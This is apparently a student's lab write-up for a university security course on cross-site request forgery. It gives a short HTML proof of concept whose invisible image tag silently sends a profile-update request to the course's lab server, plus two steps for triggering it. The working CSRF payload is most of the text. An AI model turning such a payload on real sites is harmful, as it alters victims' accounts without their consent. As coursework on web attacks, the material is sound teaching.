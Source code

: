 # Second Laboratory (CSRF) Scripts

### Change Profile Bio (POC):

```html
<!DOCTYPE html>
<html lang="EN">
<head>
    <title>CSRF Hack</title>
</head>
<body>
    <img src="http://mustard.stt.rnl.tecnico.ulisboa.pt:12006/update_profile?age=&bio=NewBio" width="0" height="0">
    <h1>You were Hacked!</h1>
</body>
</html>
```

- Log into `mustard.stt.rnl.tecnico.ulisboa.pt:12006`
- Visit Website containing above Code

